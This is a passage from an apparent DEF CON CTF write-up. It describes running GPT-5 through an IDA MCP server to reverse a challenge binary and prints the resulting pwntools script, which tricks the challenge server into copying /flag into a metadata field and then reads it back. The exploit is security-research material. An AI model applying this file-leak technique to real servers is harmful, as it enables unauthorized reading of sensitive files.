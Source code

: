 # MCP is too much for me
One of my teammates, `mahaloz`, had set up an [IDA MCP server](https://github.com/mrexodia/ida-pro-mcp) for a different challenge, `viper`, but hadn't had much luck in using it; however, some others were having success with pasting raw decompilation and instructions into the GPT console (lol).
The team `Blue Water` also `solved two Live CTF challenges` with agents that were just running in the background.
Though less complex than most other DEF CON challenges, it was part of the inspiration for trying it myself.

We were about to have a team meeting, so I made a quick Docker container to run the challenge so I didn't destroy my normal environment and brought up my own `IDA MCP server` + `Cursor` (`GPT-5` had just come out and had a bunch of free tokens available through `Cursor`) to let it run on a partially reversed `"ico"` with the initial prompt:

> You are the most amazing reverse engineer I've ever met. 
> Use the Ida pro MCP to interact and reverse the binary.
> We're looking at a server application, but we don't know much more than that.
> Feel free to ask me anything you need more information on or any important decisions that need to be made

This was my first use of `GPT-5`, and I'll say: it ran.
And it ran and it ran and it ran.
This model used the most amount of tool calls I'd ever seen, even after experimenting with `claude-4-sonnet`, `claude-4-opus`, `o3`, etc...
Eventually the meeting ended, and I was able to look at the results.
It ran for at least `12 minutes` entirely unassisted and gave us our first script.

# The Script of Disappointment

```python
from pwn import remote  # type: ignore
import os, sys, time

host = os.environ.get("HOST", "127.0.0.1")
port = int(os.environ.get("PORT", "4265"))

io = remote(host, port)

# handshake
io.send(b"\x10")       # enable
time.sleep(0.05)

# create default entry that copies /flag into "Author"
io.send(b"\x22")
time.sleep(0.05)

# request metadata bundle: Author (flag), Software, (Comment if set)
io.send(b"\x32" + b"\x01")   # 0x01 arbitrary small param

data = io.recv(timeout=2) or b""
print(f"len={len(data)} hex={data.hex()}")

# Heuristic extract: look for ASCII 'Author' then next string-ish bytes
idx = data.find(b"Author")
if idx != -1:
    # naive slice forward; adjust if you want a proper parser
    print("Found 'Author' near:", idx)
    print(data[idx:idx+256])

# clean close (optional)
io.send(b"\x11")
io.close()
```